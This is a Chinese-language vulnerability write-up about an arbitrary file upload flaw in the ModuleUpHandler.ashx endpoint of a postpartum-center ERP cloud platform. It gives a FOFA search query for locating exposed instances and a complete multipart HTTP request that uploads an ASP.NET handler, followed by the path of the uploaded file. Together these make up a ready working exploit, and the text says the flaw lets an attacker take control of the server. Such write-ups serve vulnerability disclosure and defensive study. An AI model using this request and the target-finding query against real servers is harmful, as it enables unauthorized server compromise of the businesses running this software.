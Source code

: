 # 月子会所ERP管理云平台ModuleUpHandler任意文件上传漏洞

# <font style="color:#080808;background-color:#ffffff;">一、漏洞简介</font>
<font style="color:#080808;background-color:#ffffff;">月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。</font>

# <font style="color:#080808;background-color:#ffffff;">二、影响版本</font>
+ <font style="color:#080808;background-color:#ffffff;">月子会所ERP管理云平台</font>

# <font style="color:#080808;background-color:#ffffff;">三、资产测绘</font>
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/3mmUwcgCCPX7rs7K/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-679198.png)

# <font style="color:#080808;background-color:#ffffff;">四、漏洞复现</font>
```plain
POST /Page/upload/ModuleUpHandler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 497
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

 ![1695625113023-1b5a561e-bca9-4e0b-a851-54e37976b1b6.png](./img/3mmUwcgCCPX7rs7K/1695625113023-1b5a561e-bca9-4e0b-a851-54e37976b1b6-397424.png)

上传文件位置

```plain
/UploadBaseFolder/ERP/202309//202309250657582615379.ashx
```

![1695625148156-b4baa984-634d-4344-aefe-4d61c36a3e6c.png](./img/3mmUwcgCCPX7rs7K/1695625148156-b4baa984-634d-4344-aefe-4d61c36a3e6c-987654.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sxm2rg6f8psodrnd>
